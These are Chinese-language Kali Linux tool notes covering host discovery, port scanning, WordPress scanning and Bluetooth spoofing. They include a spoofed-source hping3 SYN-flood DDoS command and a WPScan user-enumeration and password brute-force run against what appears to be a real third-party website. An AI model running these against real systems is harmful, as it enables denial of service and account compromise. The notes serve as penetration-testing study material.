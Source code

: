 ![kali工具目录](kali-tools.png "kali") 

# 01 -  信息收集
## 1.1存活主机识别
### 1.1.1 arping
好像没啥用，先空着。
### 1.1.2 fping

Fping类似于ping，但比ping强大。Fping与ping不同的地方在于，fping可以在命令行中指定要ping的主机数量范围，也可以指定含有要ping的主机列表文件。

目标IP地址的输入方式：
```
fping IP1 IP2 IP3 ...；

fping -f filename；

fping -g IP1 IP2（IP1地址开始范围，IP2地址结束范围）；
```
### 1.1.3 hping3

hping3的功能：

防火墙测试

端口扫描

Idle扫描

文件传输

木马功能

拒绝服务攻击DDOS


这里讲讲拒绝服务攻击DDOS:

我使用 testphp.vulnweb.com 这个网站来测试 :
```
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com
```
注意不要加上:  http:// or www.否则会报错。

    -c：发送数据包的个数
    -d：每个数据包的大小
    -S：发送SYN数据包
    -w：TCP window大小
    -p：目标端口，你可以指定任意端口
    –flood：尽可能快的发送数据包
    –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

### 1.1.4 masscan

扫描用，比如扫描端口：
```
Masscan 10.11.0.0/16 -p80
```

### 1.1.5 thcping6

主要用于ipv6

## 1.2 路由分析

### 1.2.1 netdiscover

专用的二层发现工具。拥有主动和被动发现两种方式。

```
netdiscover -r 192.168.28.129/24
```

# 3 - web程序
## 3.1 CMS识别
### WPScan

WPScan是一个扫描 WordPress 漏洞的黑盒子扫描器。

使用方法举例：
1. 先查找用户，下面这个语句会把用户都找出来。

```
wpscan --url https://www.igyaan.in  --enumerate u
```
2. 在根据用户去用字典破解。

```
wpscan --url https://www.igyaan.in --passwords '/usr/share/wordlists/rockyou.txt'  --username test
```

# 06 - 无线攻击
## 06.1蓝牙工具集
### 6.1.1 spooftoop

Spooftooph是一个了不起的工具，旨在自动欺骗或克隆蓝牙信息（名称，类和地址）。

您可以看这个视频学
```
https://www.youtube.com/watch?v=JmQk4Yp9bww
```
1. 首先使用终端运行hciconfig指令看interface和开关情况：DOWN。
```
hciconfig
```

如果不懂可以使用man hciconfig查看说明。

2. 终端开启。
```
hciconfig hci0 up
```



